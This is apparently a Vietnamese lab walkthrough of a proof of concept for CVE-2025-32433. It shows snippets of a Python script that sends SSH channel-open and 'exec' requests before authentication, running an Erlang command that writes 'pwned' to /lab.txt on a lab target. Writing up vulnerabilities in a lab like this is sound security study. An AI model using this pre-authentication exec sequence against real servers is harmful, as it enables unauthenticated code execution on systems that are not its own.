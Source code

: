 - Luồng thực thi của script trên:
    - 📌Kết nối đến server
    ```py
    with socket.create_connection((HOST, PORT), timeout=5) as s:
    ```
    - 📌Trao đổi banner
    ```python
    s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
    banner = s.recv(1024)
    ```
    - 📌Gửi gói `KEXINIT`
    ```py
    s.sendall(pad_packet(build_kexinit()))
    ```
    -  📌Gửi `CHANNEL_OPEN`
    ```python
    s.sendall(pad_packet(build_channel_open()))
    ```
    → Gửi gói mở channel trước khi xác thực — đây là gói tin đáng ra phải được gửi sau khi xác thực.

    - 📌Gửi `CHANNEL_REQUEST` dạng "exec"

    ```py
    s.sendall(pad_packet(build_channel_request(...)))
    ```
    → Tương tự, gói tin này được gửi mà không cần xác thực, nếu thực thi thành công, nó sẽ thực thi câu lệnh cho phép ghi một file `lab.txt` trên mục tiêu với nội dung là `pwned`.

    ```py
    command='file:write_file("/lab.txt", <<"pwned">>).'
    ```

    - 📌Cuối cùng là nhận phản hồi.

- Thực thi script này với môi trường vừa dựng được

![CVE-2025-32433](Images/3.png)

- Kiểm tra hệ thống, thấy rằng file `lab.txt` đã được ghi thành công.

![CVE-2025-32433](Images/5.png)
